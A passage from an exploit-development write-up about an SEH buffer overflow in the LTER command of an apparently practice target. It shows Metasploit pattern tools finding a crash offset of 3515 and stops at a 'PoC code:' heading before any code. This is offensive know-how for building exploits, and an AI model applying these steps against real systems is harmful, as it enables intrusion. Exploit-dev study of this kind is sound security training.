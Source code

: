 ![](/assets/img/LTER/1.png)

##### As with any other buffer overflow, the next step is to use a pattern in order to find the offset through the cyclic pattern.

```term
root@whitecr0wz:~/Exploit-Dev/LTER# msf-pattern_create -l 5000 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab . . .
```

###### Response of the SEH Chain

![](/assets/img/LTER/2.png)

##### With the value 0x326E4531, the offset is found.

```term
root@whitecr0wz:~/Exploit-Dev/LTER# msf-pattern_offset -q 326E4531 
[*] Exact match at offset 3515
root@whitecr0wz:~/Exploit-Dev/LTER# 
```

##### Due to the fact that now we know the offset, we can check if the control of the nseh & seh register was obtained.

###### PoC code:
